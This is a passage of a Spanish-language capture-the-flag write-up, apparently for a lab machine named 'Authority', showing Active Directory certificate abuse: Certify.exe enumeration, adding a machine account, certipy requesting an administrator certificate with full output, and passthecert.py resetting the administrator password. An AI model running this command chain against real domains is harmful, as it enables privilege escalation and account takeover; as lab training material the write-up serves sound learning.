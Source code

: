 Tras una vuelta por los directorios de la máquina y no encontrar mucha cosa, veo un directorio **Certs** en **C:\\** lo  cual es poco común, así que pienso que la escalada puede ir por ahí...

Me traigo el **certify.exe** de la siguiente forma:
```powershell
PS C:\Users\svc_ldap\Desktop> upload /ruta/del/archivo/certify.exe
```

Y lanzo el siguiente comando para buscar vulnerabilidades.
```powershell
PS C:\Users\svc_ldap\Desktop> ./Certify.exe find /vulnerable
```
![[captura8.png]]
Aquí podéis ver que está pasando realmente [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

Desde nuestra máquina de atacante con la herramienta **impacket-addcomputer** podemos añadir un nuevo equipo en la máquina víctima gracias al permiso **SeMachineAccountPrivilege**, para posteriormente Solicitar un certificado para suplantar al usuario **Administrador**.
![[captura7.png]]

Solicitud de certificado con **certypy**:
```bash
certipy req -username "CAHOn3R$" -p "cahoner123" -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn 'administrator@authority.htb' -template CorpVPN -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Ahora tenemos que extraer la clave privada y el certificado del archivo administrator.pfx, una vez hecho esto con la herramienta que os comparto por aquí: [passthecert.py](https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py) ya podemos ejecutar comandos, así que procedemos a cambiarle la contraseña al usuario administrator.

Extraer certificado:
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
```

Extraer Clave privada:
```bash
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Cambiar el password de usuario Administrator:
```bash
> python3 passthecert.py -crt user.crt -key user.key -dc-ip 10.10.11.222 -domain authority.htb -action modify_user -target administrator -new-pass cahoner123
```
